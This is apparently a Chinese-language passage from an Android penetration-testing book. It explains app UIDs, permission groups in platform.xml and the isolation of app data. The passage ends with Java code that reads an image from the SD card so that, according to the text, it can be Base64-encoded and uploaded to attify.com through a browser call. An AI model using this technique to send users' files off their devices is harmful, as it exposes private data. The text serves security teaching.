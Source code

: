 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lpad/img/1-3-3.jpg)

如前所述，所有 Android 应用程序在安装后首次启动时都会分配一个唯一的 UID。 具有给定 UID 的所有用户都属于特定组，具体取决于他们请求的权限。 例如，一个仅请求 Internet 权限的应用程序将属于`inet`组，因为 Android 中的 Internet 权限位于`inet`组下。

用户（在这种情况下的应用程序）可以属于多个组，具体取决于他们请求的权限。 或者换句话说，每个用户可以属于多个组，并且每个组可以具有多个用户。 这些组具有由组 ID（GID）定义的唯一名称。 然而，开发人员可以明确地指定其他应用程序在与第一个相同的 UID 下运行。 在我们的设备中，其中的组和权限在文件`platform.xml`中指定，它位于`/system/etc/permissions/`：

```
shell@grouper:/system/etc/permissions $ cat platform.xml
<permissions>

. . .
   <!-- ================================================================== -->

    <!-- The following tags are associating low-level group IDs with
         permission names. By specifying such a mapping, you are saying
         that any application process granted the given permission will
         also be running with the given group ID attached to its process,
         so it can perform any filesystem (read, write, execute) operations
         allowed for that group. -->

    <permission name="android.permission.BLUETOOTH" >
        <group gid="net_bt" />
    </permission>

    <permission name="android.permission.INTERNET" >
        <group gid="inet" />
    </permission>

    <permission name="android.permission.CAMERA" >
        <group gid="camera" />
    </permission>

. . .  [Some of the data has been stripped from here in order to shorten the output and make it readable]
 
</permissions>
```

此外，这清除了对在 Android 设备中运行的本地应用程序的怀疑。 由于本地应用程序直接与处理器交互，而不是在 Dalvik 虚拟机下运行，因此它不会以任何方式影响整体安全模型。

现在，就像我们在前面部分看到的，应用程序将其数据存储在`location/data/data/[package name]`。 现在，存储应用程序数据的所有文件夹也具有相同的用户 ID，这构成 Android 安全模型的基础。 根据 UID 和文件权限，它将限制来自具有不同 UID 的其他应用程序对它的访问和修改。

在下面的代码示例中，`ret`包含以 Base64 格式编码存储在的 SD 卡中的图像，现在正在使用浏览器调用来上传到`attify.com`网站。 目的只是找到一种方式来在两个不同的 Android 对象之间进行通信。

我们将首先创建一个对象来存储图像，在 Base64 中编码，最后将其存储在一个字符串中`imageString`：

```java
final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
    InputStream is = cr.openInputStream(uri);
    bMap = BitmapFactory.decodeStream(is);
    if (is != null) {
        is.close();
    }  
} catch (Exception e) {
    Log.e("Error reading file", e.toString());
}

ByteArrayOutputStream baos = new ByteArrayOutputStream();  
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);   
```